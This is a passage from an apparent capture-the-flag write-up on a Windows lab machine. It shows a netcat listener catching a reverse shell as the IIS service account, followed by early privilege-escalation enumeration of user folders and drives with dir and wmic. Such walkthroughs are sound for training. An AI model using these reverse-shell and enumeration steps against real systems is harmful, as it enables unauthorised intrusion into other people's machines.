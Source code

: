 

    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:49987.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv>



## Priv: iis --\> robisl

### Enumeration

Before uploading an enumeration script like
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS),
I always explore the system a bit. No interesting directories at the
root of C. Two potential users on the box, restorer and robisl:



    c:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 32D6-9041

     Directory of c:\Users

    2020-07-07  17:53    <DIR>          .
    2020-07-07  17:53    <DIR>          ..
    2020-03-28  15:59    <DIR>          .NET v4.5
    2020-03-28  15:59    <DIR>          .NET v4.5 Classic
    2020-07-22  01:02    <DIR>          Administrator
    2020-03-28  15:01    <DIR>          Public
    2020-07-22  01:11    <DIR>          restorer
    2020-07-08  19:22    <DIR>          robisl
                   0 File(s)              0 bytes
                   8 Dir(s)  10420121600 bytes free



I also wanted to see if the reference from the Azure DevOps pipeline to
`W:` was legit. I could just try navigating into it, but there are also
a few ways to list all the drives on the host. `wmic` is a nice way, and
it shows there is in fact a `W:`:



    c:\Users>wmic logicaldisk get deviceid, volumename, description
    Description       DeviceID  VolumeName  
    Local Fixed Disk  C:                    
    Local Fixed Disk  W:        Work
